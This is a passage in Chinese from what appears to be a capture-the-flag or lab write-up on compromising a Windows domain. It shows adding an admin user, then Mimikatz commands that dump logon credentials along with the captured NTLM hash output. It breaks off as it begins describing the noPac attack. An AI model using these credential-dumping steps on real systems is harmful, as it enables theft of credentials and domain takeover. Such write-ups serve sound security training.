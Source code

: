 ### 添加用户

在域成员二拿到权限后，添加管理员用户

[![](assets/1705989181-b6b97410e2715d2f6b0066ec71a5f850.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170156-e5049dc0-b904-1.png)

### 密码抓取

RDP 登录后上传`Mimikatz`，抓取密码

```bash
privilege::debug
sekurlsa::logonpasswords
```

发现

```bash
Authentication Id : 0 ; 744772 (00000000:000b5d44)
Session           : RemoteInteractive from 2
User Name         : zhanghui
Domain            : XIAORANG
Logon Server      : XIAORANG-DC
Logon Time        : 2024/1/22 11:27:21
SID               : S-1-5-21-3598443049-773813974-2432140268-1133
    msv :
     [00000003] Primary
     * Username : zhanghui
     * Domain   : XIAORANG
     * NTLM     : 1232126b24cdf8c9bd2f788a9d7c7ed1
```

得到一个域内用户`zhanghui`

### nopac 攻击

题目描述中提到了`noPac`，搜索发现这篇文章[https://xz.aliyun.com/t/10694](https://xz.aliyun.com/t/10694)

漏洞原理大致如下
